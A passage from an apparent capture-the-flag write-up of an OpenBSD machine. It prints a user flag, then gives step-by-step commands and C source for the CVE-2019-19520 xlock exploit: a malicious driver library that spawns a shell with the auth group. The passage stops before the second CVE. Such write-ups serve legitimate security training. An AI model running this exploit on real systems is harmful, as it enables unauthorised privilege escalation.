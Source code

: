 ```terminal
total 364
drwxr-xr-x  3 jennifer  jennifer     512 Aug  9 14:27 .
drwxr-xr-x  3 root      wheel        512 Jan 13  2020 ..
-rw-r--r--  1 jennifer  jennifer      87 Jan 13  2020 .Xdefaults
-rw-r--r--  1 jennifer  jennifer     771 Jan 13  2020 .cshrc
-rw-r--r--  1 jennifer  jennifer     101 Jan 13  2020 .cvsrc
-rw-r--r--  1 jennifer  jennifer     359 Jan 13  2020 .login
-rw-r--r--  1 jennifer  jennifer     175 Jan 13  2020 .mailrc
-rw-r--r--  1 jennifer  jennifer     215 Jan 13  2020 .profile
drwx------  2 jennifer  jennifer     512 Jan 13  2020 .ssh
-rwxr-xr-x  1 jennifer  jennifer    4087 Aug  9 14:26 CVE-2019-19520.sh
-rwxr-xr-x  1 jennifer  jennifer  161009 Aug  9 14:16 linpeas.sh
-rw-r-----  1 jennifer  jennifer      33 Jan 14  2020 user.txt
```

```terminal
openkeys$ cat user.txt
36ab21239a15c537bde90626891d2b10
openkeys$ 
```

## **<span style='color:#E70B0B'>Escalating to root</span>**
***

I found great article about the exploitation and it has 3 `CVEs`
[Exploits](https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-vulnerabilities-openbsd.txt)


There are 3 `CVEs` to get root, I used `CVE-2019-19520` & `CVE-2019-19522` which both of them are related to each other, in order to get root, we have to executed `CVE-2019-19520` before `CVE-2019-19522`.

```terminal
$ id
uid=32767(nobody) gid=32767(nobody) groups=32767(nobody)

$ cd /tmp

$ cat > swrast_dri.c << "EOF"
#include <paths.h>
#include <sys/types.h>
#include <unistd.h>

static void __attribute__ ((constructor)) _init (void) {
    gid_t rgid, egid, sgid;
    if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
    if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);

    char * const argv[] = { _PATH_KSHELL, NULL };
    execve(argv[0], argv, NULL);
    _exit(__LINE__);
}
EOF

$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c

$ env -i /usr/X11R6/bin/Xvfb :66 -cc 0 &
[1] 2706

$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :66

$ id
uid=32767(nobody) gid=11(auth) groups=32767(nobody)
```